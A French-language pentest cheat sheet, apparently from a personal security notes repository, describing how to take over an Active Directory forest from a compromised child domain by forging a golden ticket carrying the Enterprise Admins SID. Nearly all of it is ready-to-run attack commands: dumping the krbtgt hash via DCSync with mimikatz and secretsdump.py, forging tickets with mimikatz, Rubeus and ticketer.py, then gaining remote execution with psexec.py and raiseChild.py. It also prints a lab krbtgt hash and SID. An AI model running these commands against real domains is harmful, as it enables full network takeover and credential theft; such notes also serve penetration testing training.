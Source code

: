 ```yaml
---
public: true # set to true to make the article publishable
---
```


Il s'agit d'une attaque offrant la possibilité de compromettre une forêt AD à partir d'un domaine compromis.

Il s'appuie sur la création d'un golden ticket qui contiendra un SID history égal au SID du groupe de sécurité administrateur de l'entreprise.

## Prérequis

- Disposer du Hash NTLM (LM:NT) du compte krbtgt du domaine enfant (récupérable via  `lsadump::dcsync /user:krbtgt@LOGISTICS.INLANEFREIGHT.LOCAL`)

## Attaque

### Sous Windows
#### Récupération des éléments  nécessaires

```shell
# récupération du SID du groupe "administtrateurs de l'entreprise"
 Get-DomainGroup -Domain <PARENT DOMAIN> | ? {$_.SamAccountName -like "Enterprise Admins"}| Select -ExpandProperty objectsid

# récupération du hash du krbtgt du domaine compromis
mimikatz
 lsadump::dcsync /user:krbtgt@<domain>

# récupération du sid du groupe entreprise admin
get-domaingroup -Domain inlanefreight.local|?{$_.samaccountname -like "ent*admin*"}|select name,objectsid

# récupération du sid du domaine 
get-domainsid
```

#### Mimikatz

```shell
# création du golden ticket
mimikatz
 kerberos::golden /user:<fake or real user> /domain:<compromised domain> /sid:<compromised domain s SID> /sids:<Group SID to privesc> /rc4:<compromised domain s KRBTGT hash> /ptt
```

#### Rubeus

```shell
.\Rubeus.exe golden /rc4:<compromised domain s KRBTGT hash> /domain:<compromised domain> /sid:<compromised domain s SID>  /sids:<Group SID to privesc> /user:<fake or real user> /ptt
```

### Sous Linux

#### Récupération des éléments  nécessaires

```shell
# récupération du SID du groupe "administtrateurs de l'entreprise"
 lookupsid.py

# récupération du hash du krbtgt du domaine compromis
secretsdump.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip> -just-dc -just-dc-user <domain netbios>/krbtgt

9d765b482771505cbe97411065964d5f
# récupération du sid du groupe entreprise admin
lookupsid.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip wher Enterprise admin is defined> | grep -Ei 'ent.*adm.*'


S-1-5-21-3842939050-3880317879-2865463114-519
# récupération du sid du domaine 
lookupsid.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip wher Enterprise admin is defined> | head
```

#### ticketer.py

```shell
# création du golden ticket
ticketer.py -nthash <compromised domain s KRBTGT hash> -domain <compromised domain>  -domain-sid <compromised domain s SID> -extra-sid <Group SID to privesc> <fake or real user>

# utilisation
export KRB5CCNAME=$PWD/<fake or real user>.ccache

psexec.py -k -no-pass <fake or real user>@<target FQDN> -dc-ip <dc ip> -target-ip <target-ip>
```

### raiseChild.py

```shell
raiseChild.py <compromised domain FQDN>/<domain admin user>:<password> -target-exec <target ip>
```
